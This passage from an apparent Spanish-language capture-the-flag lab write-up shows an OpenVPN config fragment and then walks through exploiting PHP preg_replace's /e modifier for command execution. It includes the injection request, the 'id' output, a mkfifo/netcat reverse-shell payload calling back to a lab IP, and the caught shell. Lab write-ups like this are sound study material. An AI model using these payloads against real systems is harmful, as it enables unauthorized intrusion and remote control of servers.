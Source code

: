 ```bash
                "local-address": {
                        "10.10.10.1": "''"
                },
                "local-port": "1337",
                "mode": "site-to-site",
                "openvpn-option": [
                        "--comp-lzo",
                        "--float",
                        "--ping 10",
                        "--ping-restart 20",
                        "--ping-timer-rem",
                        "--persist-tun",
                        "--persist-key",
                        "--user nobody",
                        "--group nogroup"
                ],
                "remote-address": "ip_address",
                "remote-port": "1337",
                "shared-secret-key-file": "/config/auth/secret"
        },
        "protocols": {
                "static": {
                        "interface-route": {
                                "ip_address/24": {
                                        "next-hop-interface": {
                                                "vtun0": "''"
                                        }
                                }
                        }
                }
        }
}
```
Lo mas interesante de esta info es el campo pattern que al parecer es el patron que esta buscando este busca el patron por // y investigando descubro que se hace con una funcion php llamada `preg_replace()`. Al obtener mas informacion sobre esta funcion descubro que puede <a href='https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace'>ejecutar</a> comandos a traves del especificador `\e`. 
Sabiendo ya todo esto intento ejecutar comandos con la siguiente peticion.
```bash
pattern=%2Ffred%2Fe&ipaddress=system("id")&text=fred
```
Y viendo la respuesta encontre el comando ejecutandose
```bash
<div class="panel-body">
                 <p>uid=33(www-data) gid=33(www-data) groups=33(www-data)</p>
 <a href="tools.php" class="btn btn-lg btn-success btn-block">
```
Ahora para lograr una reverse shell utilice el payload de pentest monkey.
```bash
pattern=%2Ffred%2Fe&ipaddress=system("rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.16.42+443+>/tmp/f")&text=fred
```
```bash
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.42] from (UNKNOWN) [10.129.189.199] 38556
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
Hago un tratamiento de la tty.
```bash
$ script /dev/null -c bash
Script started, file is /dev/null
```